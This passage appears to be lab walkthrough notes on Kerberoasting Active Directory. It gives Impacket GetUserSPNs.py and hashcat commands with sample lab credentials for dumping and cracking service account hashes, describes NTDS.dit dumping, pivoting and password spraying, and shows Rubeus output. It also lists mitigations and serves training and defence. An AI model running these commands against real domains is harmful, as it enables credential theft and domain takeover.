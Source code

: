 2.) download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

3.) cd Impacket-0.9.19 navigate to the impacket directory

4.) pip install . - this will install all needed dependencies

Kerberoasting w/ Impacket - 

1.) cd /usr/share/doc/python3-impacket/examples/ - navigate to where GetUserSPNs.py is located

2.) sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.59.104 -request - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash

What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

Mitigation - Defending the Forest

![](https://i.imgur.com/YPuNS2X.png)

Kerberoasting Mitigation -

     Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
     Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

```
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 2


[*] SamAccountName         : SQLService
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111
[*] PwdLastSet             : 5/25/2020 10:28:26 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
```